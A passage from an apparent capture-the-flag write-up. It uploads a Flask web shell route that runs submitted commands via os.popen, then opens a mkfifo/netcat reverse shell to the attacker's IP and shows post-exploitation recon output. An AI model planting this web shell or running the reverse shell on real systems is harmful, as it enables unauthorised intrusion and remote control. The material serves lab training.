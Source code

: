 ```python
from flask import render_template_string

html_template = """ <!DOCTYPE html> <html> <head> <title>Run Command</title> </head> <body> <h1>Enter Command</h1> <form method="post"> <input type="text" name="command" /> <input type="submit" value="Run" /> </form> {% if output %} <h2>Output:</h2> <pre>{{ output }}</pre> {% endif %} </body> </html> """

@app.route('/raccoon', methods=['GET', 'POST']) 
def run_command(): 
	output = None 
	if request.method == 'POST': 
		command = request.form.get('command') 
		if command: 
			output = os.popen(command).read()
	return render_template_string(html_template, output=output)
```

Upload at the /upcloud endpoint, then head to http://10.10.11.164/raccoon and run id to check the user running this webapp.

![/raccoon route upload]({{ page.img }}_raccoon_take_2.png)

Unexpected.. time to get a shell and dig around.

```bash
# Command run:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.4 7777 >/tmp/f


nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.164 43457
sh: can't access tty; job control turned off
/app # ls
INSTALL.md
app
public
run.py
/app # find / -name "id_rsa" 2>/dev/null
/app # netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      7/python
netstat: /proc/net/tcp6: No such file or directory
netstat: /proc/net/udp6: No such file or directory
/app # ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:06  
          inet addr:172.17.0.6  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:834 errors:0 dropped:0 overruns:0 frame:0
          TX packets:767 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:108080 (105.5 KiB)  TX bytes:275315 (268.8 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

```